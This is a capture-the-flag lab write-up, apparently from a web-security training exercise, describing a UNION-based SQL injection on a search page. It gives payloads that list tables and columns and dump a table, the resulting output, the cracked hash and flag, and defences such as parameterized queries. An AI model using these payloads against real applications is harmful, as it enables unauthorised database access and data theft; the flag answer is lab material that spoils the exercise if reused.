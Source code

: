 # SQL injection

## Found on
```
<ip>/?page=searchimg
```

## How to exploit

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database()
```

2. To get user table column names:
```
3 UNION SELECT column_name, null FROM information_schema.columns WHERE table_schema = database()
```

3. To get all data of users:
```
3 UNION SELECT title, comment FROM list_images
```

The last injection reveals this:
```
ID: 3 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

With these instructions getting the flag was easy.
1. Decript the hash -> albatroz
2. Encrypt the lowercase phrase with Sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

[MD5 decryption utility](https://hashtoolkit.com/decrypt-md5-hash)

## A brief explination of the SQL attack

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* <https://owasp.org/www-community/attacks/SQL_Injection>
* <https://portswigger.net/web-security/sql-injection/union-attacks>
* <https://dev.mysql.com/doc/refman/8.0/en/information-schema.html>
* <https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/>